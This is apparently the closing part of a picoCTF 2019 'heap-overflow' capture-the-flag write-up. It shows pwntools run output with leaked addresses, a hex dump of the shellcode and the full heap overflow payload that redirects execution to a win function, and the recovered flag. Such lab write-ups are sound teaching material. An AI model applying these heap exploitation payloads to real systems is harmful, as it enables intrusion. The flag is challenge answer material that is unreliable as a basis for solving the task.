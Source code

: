     [+] Receiving all data: Done (14B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] Working directory: '/tmp/tmp.3yiJzWxN8Q'
    [+] Opening new channel: 'ln -s /home/<username>/* .': Done
    [+] Receiving all data: Done (0B)
    [*] Closed SSH channel with 2019shell1.picoctf.com
    [*] win address: 0x8048936
    [+] Starting remote process b'/problems/heap-overflow_4_3753f93c50c60685d83eea78243a85a0/vuln' on 2019shell1.picoctf.com: pid 1392682
    [*] fullname address: 0x92bc008
    [*] shellcode:
        00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 36  │····│····│····│··h6│
        00000010  89 04 08 c3                                         │····│
        00000014
    [*] payload:
        00000000  eb 0c 90 90  90 90 90 90  90 90 90 90  90 90 68 36  │····│····│····│··h6│
        00000010  89 04 08 c3  42 42 42 42  42 42 42 42  42 42 42 42  │····│BBBB│BBBB│BBBB│
        00000020  42 42 42 42  42 42 42 42  42 42 42 42  42 42 42 42  │BBBB│BBBB│BBBB│BBBB│
        *
        00000290  42 42 42 42  42 42 42 42  fc ff ff ff  fc ff ff ff  │BBBB│BBBB│····│····│
        000002a0  1c d0 04 08  08 c0 2b 09                            │····│··+·│
        000002a8
    [+] picoCTF{a_s1mpl3_h3ap_222e5b52}
    ```

### Flag

`picoCTF{a_s1mpl3_h3ap_222e5b52}`
